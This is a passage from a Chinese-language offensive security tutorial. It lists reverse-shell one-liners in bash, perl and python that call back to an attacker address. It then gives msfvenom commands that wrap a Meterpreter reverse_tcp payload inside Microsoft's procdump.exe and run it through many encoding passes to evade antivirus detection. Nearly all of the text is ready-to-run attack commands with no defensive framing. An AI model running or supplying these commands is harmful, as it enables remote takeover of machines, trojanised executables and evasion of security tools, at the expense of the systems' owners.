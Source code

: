 所以总结一下 ，payload的制作只要更改其中的payload的目录即可，设置基本都一样只是更换payload而已。

# 其他的各种各样的姿势的反弹shell：

```bash
bash:bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
```perl
perl: perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```python
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

**编码捆绑免杀部分**
测试编码并绑定微软官方工具，这里使用官方procdump做实验
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.91.129 LPORT=7777 -e x86/shikata_ga_nai -x procdump.exe  -i 20 -f exe -o t3.exe
```


**0x05多重编码**

通过资料了解，msfvenom某一种编码器可以做到一定程度的免杀，这是可以多重编码增大免杀率，同时x86/shikata_ga_nai为多态编码，可以尝试增大编码次数达到免杀效果
```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 100 LHOST=192.168.56.129 LPORT=7777 -f raw | msfvenom -a x86 –platform windows -e x86/countdown -i 100 -f raw | msfvenom -a x86 –platform windows -e x86/shikata_ga_nai -b “&” -i 100 -f raw | msfvenom -a x86 –platform windows -e cmd/powershell_base64 -i 100 -x procdump.exe -k -f exe >t4.exe
```



